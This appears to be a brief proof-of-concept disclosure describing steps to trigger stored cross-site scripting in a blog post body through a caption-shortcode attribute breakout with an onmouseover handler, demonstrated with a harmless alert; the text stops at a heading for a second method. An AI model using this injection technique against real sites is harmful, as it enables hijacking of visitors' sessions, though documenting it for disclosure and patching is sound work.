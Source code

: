 # Steps
**Step 1:**
Make a new Post

**Step 2:**
Type the code below into the body of the post 
```
<a href = "[caption code="]></a> <a title = " onmouseover=alert('Hello')">link</a>
```
**Step 3**
A link will appear in the post. Have a user click that link to perform the XSS


# Demo
![](Demo.gif)

# Second way to perform XSS 

